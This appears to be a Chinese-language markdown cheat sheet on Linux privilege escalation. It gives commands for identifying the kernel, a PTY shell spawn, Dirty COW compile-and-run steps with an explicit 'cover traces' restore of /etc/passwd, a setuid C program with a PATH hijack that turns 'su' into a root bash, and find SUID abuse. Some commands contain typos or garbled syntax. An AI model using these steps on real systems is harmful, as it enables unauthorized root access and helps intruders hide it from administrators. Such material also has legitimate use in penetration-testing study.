




# Linux内核提权

> 1.`whoami`判断权限
>
> 2.根据系统版本查找漏洞,并利用对应的`exp`
>
> 3.翻阅目录,根据linux敏感目录和第三方软件,查找对应的敏感文件
>
> 获取交互式命令行`python -c 'import pty; pty.spawn("/bin/bash")'`

| 命令              | 说明                   |
| ----------------- | ---------------------- |
| uname -a          | 打印所有可用的系统信息 |
| uname -r          | 内核版本               |
| uname -m          | 查看系统内核架构       |
| cat /proc/version | 内核信息               |
| cat /etc/issue    | 发行版本信息           |
| whoami            | 当前用户名             |
| id                | 当前用户信息           |

- 搜索对应的exp

> https://www.exploit-db.com/
>
> https://www.github.com/SecWiki/linux-kernel-exploits

****

# 脏牛提权

- 上传`dirty.c`文件到目标

```bash
#使用下面的命令编译
gcc -pthread dirty.c -o dirty -lcrypt
```

- 执行

```bash
# +新增用户密码
./dijrty 445566
# 查看是否提权成功
cat /etc/passwd
# 销毁(覆盖)
mv /tmp/passwd.bak /etc/passwd
```

### 示例





- 覆盖删除痕迹

```bash
mv /tmp/passwd.bak /etc/passwd
```


****

# Linux suid自定义文件提权

- 编辑一个`demo.c`文件

```c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - tomato");
}
```

- 编译

```bash
gcc demo.c -o demo
```

- 给`demo`文件添加`s权限`

```bash
chmod u+s demo
&
chmod 4777 demo
```



```bash
[root@localhost tmp]# echo "/bin/bash" > su
[root@localhost tmp]# cat su
/bin/bash
[root@localhost tmp]# chmod 777 su
[root@localhost tmp]# export PATH=/tmp:$PATH
[root@localhost tmp]# echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
```



****

# Linux find_suid提权

```bash
[root@localhost /]# which find
/usr/bin/find
[root@localhost /]# chmod u+s /usr/bin/find
[root@localhost /]# ll /usr/bin/find
-rwsr-xr-x. 1 root root 199304 10月 31 2018 /usr/bin/find
[root@localhost /]# su test
[test@localhost /]$ find root -exec "cat whoami" \;
root
```

# Linux Mysql UDF提权

- 和windows类似